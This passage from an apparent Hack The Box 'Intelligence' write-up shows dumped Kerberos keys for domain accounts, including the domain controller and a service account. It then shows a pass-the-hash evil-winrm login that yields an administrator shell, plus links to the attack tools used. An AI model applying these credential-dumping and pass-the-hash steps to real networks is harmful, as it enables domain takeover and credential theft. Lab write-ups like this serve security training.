intelligence.htb\Jose.Williams:aes128-cts-hmac-sha1-96:94cd916dee769a98ed763a5d864a4486
intelligence.htb\Jose.Williams:des-cbc-md5:d07f38548013d37f
intelligence.htb\Jason.Wright:aes256-cts-hmac-sha1-96:0facd3ad464e633b16454e5e3a2d14bf8460ecc1e39ce2c92788a444b3716f1c
intelligence.htb\Jason.Wright:aes128-cts-hmac-sha1-96:0e85a159ad7605f55817393006e9bd51
intelligence.htb\Jason.Wright:des-cbc-md5:9194da836e8c9238
...
DC$:aes256-cts-hmac-sha1-96:37a41177d23649d1ef49a77971ed6bac731d0738d6e5637df292cd3274a65b03
DC$:aes128-cts-hmac-sha1-96:2eb347b0e63748e0ec98601b62944343
DC$:des-cbc-md5:310d023dd901ecce
svc_int$:aes256-cts-hmac-sha1-96:f8ba15b8f4b71404cd2e40d32b613085e5a909690ba59b1319b7ddf35751737f
svc_int$:aes128-cts-hmac-sha1-96:52805df5585329f7ff05b3d7912df3ae
svc_int$:des-cbc-md5:e6f816459ec86ed9
[*] Cleaning up...
```

```
$ evil-winrm -u 'intelligence.htb\Administrator' -H 9075113fe16cf74f7c0f9b27e882dad3 -i 10.10.10.248
Evil-WinRM shell v3.4
...
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
intelligence\administrator
```


## Links

- [dnstool.py](https://github.com/dirkjanm/krbrelayx)
- [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper)
- [pdftotext](https://www.cyberciti.biz/faq/converter-pdf-files-to-text-format-command/)